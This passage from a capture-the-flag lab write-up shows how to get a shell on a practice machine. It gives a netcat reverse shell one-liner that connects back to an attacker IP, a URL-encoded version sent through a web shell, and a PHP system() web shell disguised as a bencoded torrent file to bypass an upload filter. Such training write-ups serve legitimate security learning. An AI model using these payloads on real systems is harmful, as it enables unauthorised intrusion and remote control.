 <div id="reverse-shell"></div>

![phprce1](/assets/{{ imgDir }}/phprce1.png)

{% highlight none linenos %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.3 443 >/tmp/f
{% endhighlight %}

To get a shell on the host, we start a netcat listener by executing `nc -lvnp 443`. We then [URL encode](https://en.wikipedia.org/wiki/Percent-encoding) the reverse shell payload above and execute it using the web shell by visiting `http://10.10.10.6/torrent/upload/eb2af9670237f53152c68317b252 bf49403ce545.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.16.3+443+>/tmp/f`. Upon visiting the link, the listener receives a connection which provides us with a shell on the host, as can be seen below. Note that your IP address might be different from the one in the reverse shell payload and that you thus might have to change this to get a shell.

![shell1](/assets/{{ imgDir }}/shell1.png)

The next step is to perform a privilege escalation from `www-data` to `root`. There are two ways to do this. The first way is to abuse a known vulnerability in Linux PAM and the second is through kernel exploitation. These two approches are detailed in the two sections after the next subsection. Feel free to skip the next subsection if you rather focus on getting a shell as `root` than to explore the second approach for acheiving remote code execution.

## Initial Shell - Bypassing the Torrent Filter
The starting point for this section is that we have found the torrent page `http://10.10.10.6/torrent` and that we have created an account with the username `x` and the password `x` as [described earlier]({{path}}#sign-up). The next step is to upload a malicious torrent which can bypass the upload page's filtering mechanism. The upload page expects a `.torrent` file and won't let a user upload anything without first inspecting the content of the file being uploaded to check if it is a valid torrent file.

Torrent files with the `.torrent` extension are typically encoded using [bencoding](https://en.wikipedia.org/wiki/Bencode). In bencoding, there are four data types. The first is integers which are represented as `i[x]e`, where `[x]` is the integer in base 10. For example, the integer `2` would be stored as `i2e`. The second data type is strings which are represented as `[len]:[x]`, where `[len]` and `[x]` are the length of the string and the string itself. Finally, the last two data types are lists and dictionaries which are represented by slightly more complicated structures. Understanding these two last data types is not needed for our purposes. 

{% highlight php linenos %}
i2e
<?php
$cmd = ($_REQUEST['cmd']);
system($cmd);
?>
{% endhighlight %}

Since we know that the content of the file is being inspected and is expected to contain bencoded values, we can try to upload some bencoded data together with a php web shell. To do this, we start by storing the content above in a file named "evil.torrent". This file contains a random integer `2` which is bencoded and a php web shell payload. Next, we navigate to the `upload` tab, press the `Choose File` button, select the file, press `Open` and give it the name "evil". This results in the form shown below.

